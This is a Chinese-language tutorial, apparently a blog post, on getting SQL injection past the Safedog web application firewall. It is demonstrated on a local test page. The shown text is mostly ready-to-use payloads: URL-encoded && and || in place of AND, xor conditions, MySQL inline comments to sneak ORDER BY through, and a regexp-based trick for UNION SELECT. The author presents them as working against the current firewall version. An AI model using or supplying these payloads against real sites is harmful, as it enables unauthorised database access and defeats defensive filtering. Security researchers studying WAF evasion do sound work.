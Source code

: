 通过测试我们发现当 and 后面跟上 数字型和字符型时他会给我们拦截掉 ，其实我们在安全狗的规则里面可以看到他拦截 and 和 or 所以我们有2个思路

- 用其他字符替换 and 或者 or
- 带入的不是字符串和数字型，带入一个特殊符号

 

针对第一种我们可以去看看运算符号 随便找到几个| ^ xor & / * && || 等等还有很多

```
与运算 a & b  , 
或运算 a | b ,  
异或运算 a ^ b 
```

那么可以试着将and替换成&&,URL编码得到%26%26,将1=1替换成true或者false,发现可以成功绕过

```
http://127.0.0.1/test.php?id=1' %26%26 true%23
```

![](https://ae01.alicdn.com/kf/HTB1SdWTe8OD3KVjSZFFq6An9pXaH.jpg)

另外在分享一些可以绕过目前版本的安全狗测试payload,(注:mysql支持&&  || ,oracle不支持 && ||）

```
http://127.0.0.1/test.php?id=1'  || true%23         //将and 1=1替换为|| true,也可以绕过安全狗
http://127.0.0.1/test.php?id=1'   ||(1) %23 		//使用括号代替空格绕过
//异或逻辑运算符xor，运算法则是：两个条件相同（同真或同假）即为假（0），两个条件不同即为真（1）
http://127.0.0.1/test.php?id=1'  xor 1%23			
http://127.0.0.1/test.php?id=1'  xor true%23
```

### 绕过order by查询

判断查询字段,使用mysql的`/*!*/` 内敛注释去绕过防护,而其中的代码是可以正常执行的

```
http://127.0.0.1/test.php?id=1' /*!order*//*!by*/2%23
```

![](https://ae01.alicdn.com/kf/HTB1DkaRe2WG3KVjSZFgq6zTspXab.jpg)

### 绕过union select查询

使用union xxx页面正常,

![](https://ae01.alicdn.com/kf/HTB14rWSe.GF3KVjSZFoq6zmpFXay.jpg)

但是用union和select放在在一起就被发现啦

![](https://ae01.alicdn.com/kf/HTB1h.jkbMFY.1VjSZFnq6AFHXXak.jpg)

在网上找了好一阵子,发现有大佬提供的payload使用正则表达式去绕过

```
http://127.0.0.1/test.php?id=1'=/*!user () regexp 0x5e72*/--+
```
